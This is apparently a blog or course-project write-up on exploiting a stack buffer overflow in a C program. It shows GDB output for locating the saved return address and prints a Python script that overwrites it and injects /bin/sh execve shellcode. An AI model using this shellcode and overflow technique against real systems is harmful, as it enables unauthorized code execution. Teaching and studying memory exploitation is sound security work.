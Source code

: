 ```yaml
---
layout: page
title: Memory Exploitation
subtitle: Buffer overflow in C
category: sec
---
```


This project examines one of the memory vulnerabilities - buffer overflow  in *C* and presents ways in which it can be exploited. Its main idea is to overwrite the Return Instruction Pointer ($**rip**) so that the program executes our shellcode instead of the originally intended instruction. The files for this project can be found [here]().

### Background

### Determining the address of RIP

The address of the $**rip** can be found by running `info frame` in [GDB](), while the offset of $**rip** from the beginning of the buffer can be determined by running the command `x/32x`. The `x/Px &buffer` command allows one to view `P` chunks of memory starting at `buffer`.

Here's a sample output after running `info frame`. 

```
GDB Output:
(gdb) info frame
 Stack level 0, frame at 0xbffffe00:
  eip = 0x8048412 in deja_vu (dejavu.c:7); saved eip 0x804842a
  called by frame at 0xbffffe10
  source language c.
  Arglist at 0xbffffdf8, args:
  Locals at 0xbffffdf8, Previous frame's sp is 0xbffffe00
  Saved registers:
   ebp at 0xbffffdf8, eip at 0xbffffdfc
```

Note that the `saved eip` is the value of $**rip** and after taking into account its offset from the beginning of the buffer we're trying to overflow, we find that the address of the register in memory is `0xbffffdfc`, as follows:

```
(gdb) x/32x &door
0xbffffde8:     0xbffffeac      0xb7e5f225      0xb7fed270      0x00000000
0xbffffdf8:     0xbffffe08      0x0804842a      0x08048440      0x00000000
0xbffffe08:     0x00000000      0xb7e454d3      0x00000001      0xbffffea4
0xbffffe18:     0xbffffeac      0xb7fdc858      0x00000000      0xbffffe1c
0xbffffe28:     0xbffffeac      0x00000000      0x0804821c      0xb7fd2000
0xbffffe38:     0x00000000      0x00000000      0x00000000      0xf09febf0
0xbffffe48:     0xc7caefe0      0x00000000      0x00000000      0x00000000
0xbffffe58:     0x00000001      0x08048320      0x00000000      0xb7ff26a0
```

We then proceed and run a python script that overwrites the buffer with that address (although it really doesn't matter what we fill the buffer with), followed by the address of where the shellcode is then being injected.

The script looks something like so: 

```
#!/usr/bin/env python

shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0
b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xd
c\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

print(5 * "\xfc\xfd\xff\xbf" + "\x00\xfe\xff\xbf" + shellcode)
```
